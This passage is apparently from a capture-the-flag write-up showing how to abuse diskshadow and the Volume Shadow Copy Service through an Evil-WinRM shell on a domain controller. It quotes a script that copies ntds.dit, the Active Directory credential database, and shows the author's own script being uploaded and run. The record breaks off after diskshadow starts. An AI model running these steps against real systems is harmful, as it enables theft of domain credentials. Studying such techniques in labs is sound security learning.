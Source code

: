 > Diskshadow.exe is a tool that exposes the functionality offered by the
> volume shadow copy Service (VSS). By default, Diskshadow uses an interactive
> command interpreter similar to that of Diskraid or Diskpart. Diskshadow also
> includes a scriptable mode.

Because my shell is not an interactive desktop, I’ll want to use the scripting
mode. It involves just putting `diskshadow` commands in a file, one per line.
Pentestlab Blog has a [good
breakdown](https://pentestlab.blog/tag/diskshadow/) that includes a section on
using `diskshadow`. It’s written as if you have admin and just have to deal
with accessing the file, so my strategy will be slightly different.

I’m going to create a file that mounts the c drive as another drive using the
VSS. I’ll be able to read files from there that would be locked in c.

#### Troubleshooting

It took me a few attempts to get this to actually work. I’ll walk through them
for anyone who might find it useful to see how I troubleshoot. Or, you can
skip to the next section.

I started with the script from the [PentestLab
blog](https://pentestlab.blog/tag/diskshadow/):

    
    
    set context persistent nowriters
    add volume c: alias someAlias
    create
    expose %someAlias% z:
    exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
    delete shadows volume %someAlias%
    reset
    

It is going to fail at that `copy`, so I’ll cut that out and let it stop after
mounting the shadow copy. I updated the path I wanted to copy it to, and the
alias, and had:

    
    
    set context persistent nowriters
    add volume c: alias df
    create
    expose %df% z:
    

I’ll upload that and run it. The article recommended running out of
C:\windows\system32:

    
    
    *Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
    Info: Uploading vss.dsh to c:\programdata\vss.dsh
    
    
    Data: 104 bytes of 104 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
    Microsoft DiskShadow version 1.0
    Copyright (C) 2013 Microsoft Corporation
    On computer:  DC01,  6/9/2020 8:49:56 PM
    